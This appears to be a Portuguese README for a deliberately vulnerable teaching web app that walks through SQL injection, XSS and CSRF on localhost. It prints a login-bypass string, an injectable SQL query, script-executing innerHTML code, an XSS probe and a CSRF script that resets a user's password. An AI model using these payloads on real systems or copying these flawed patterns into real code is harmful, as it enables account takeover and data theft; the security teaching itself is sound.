 # Endpoints da API

## Postman

https://www.postman.com/payload-astronaut-55560118/neandertais/collection/37fuatq/vulnerabilidades?share=true


--- 
# COMO RODAR AS VULNERABILIDADES

## SQL Injection 

1 - Quando digitamos `" OR "1"="1` no campo de e-mail  conseguimos fazer login mesmo sem credenciais corretas

https://github.com/user-attachments/assets/67b0d9d1-da18-4db9-ab24-6decab26bb59


2 - Essa falha acontece quando os dados fornecidos pelo usuário são inseridos diretamente dentro de um comando SQL, sem qualquer tipo de proteção ou tratamento. Nesse caso, o conteúdo malicioso enviado é interpretado como parte da lógica do banco de dados.

Exemplo de vulnerabilidade no código  👇 

```js
  const query = await pool.query(
    `
    SELECT
      id,
      nome,
      email
    from usuario
    where 1 = 1
    and email = "${email}" // obs: O campo email está vulnerável para SQL Injections:
    and senha = "${senha}"
    `
  );
```

## XXS (Cross-site scripting)

1 - XSS é uma vulnerabilidade que permite a um atacante injetar scripts maliciosos (JavaScript) em páginas web visualizadas por outros usuários.  
Exemplo de código que injeta script
```js
 const salvar = () => {
    const nomeInput = document.getElementById('wl') as HTMLInputElement;
    const resultado = document.getElementById('resultado');

    if (nomeInput && resultado) {
      resultado.innerHTML = nomeInput.value;

      const scripts = resultado.querySelectorAll('script');

      scripts.forEach(script => {
        const novoScript = document.createElement('script');
        if (script.innerText) {
          // insere o script dentro do html
          novoScript.innerText = script.innerText;
          document.body.appendChild(novoScript);
        }
      });
    }
  }
```
2 - Esse código, quando inserido em um campo de entrada (formulário) e exibido no HTML sem tratamento, executará um alerta, isso indica vulnerabilidade XSS.
```js
<script>alert('XSS')</script>
```

## Cross-Site Request Forgery (CSRF)

1 - Necessário fazer login da pagina original

https://github.com/user-attachments/assets/c6f8c93f-76e1-4d5b-81af-a89eb2277225

2 - Após o usuário realizar o login no site oficial, os cookies de autenticação são armazenados no navegador. Esses cookies podem ser aproveitados por outra página web para enviar uma solicitação maliciosa, como, por exemplo, para a rota localhost:5000/api/updateSenha.


https://github.com/user-attachments/assets/af4c2424-6f6b-4a90-bf39-9a448ca09916

3 - Dessa forma, o cookie do usuário autenticado é enviado ao servidor na solicitação, permitindo que um atacante altere a senha do usuário de maneira maliciosa, explorando a ausência de proteções adequadas, como validação de tokens CSRF.

Exemplo do script do atacante:
```js
      const hackerAlteraSenha = async () => {
        fetch("http://localhost:5000/api/userPassword", {
          method: "PUT",
          credentials: "include",
          headers: {
            "Content-Type": "application/json",
          },
          body: JSON.stringify({
            novaSenha: "senhahackeada",
          }),
        })
          .then((res) => {
            if (!res.ok) {
              return res.json().then((data) => {
                throw new Error(data.message || "Erro desconhecido");
              });
            }
            return res.json();
          })
          .then((data) => {
            if (data.success) {
              console.log({ data });

              alert("Senha alterada!");
            }
          })
          .catch((error) => {
            console.error("Erro:", error.message);
          });
      };
```
4 - Conclusão, no banco de dados a senha do usuário foi alterada.

![image](https://github.com/user-attachments/assets/5cb42999-9207-4030-8a84-5be76804a93d)

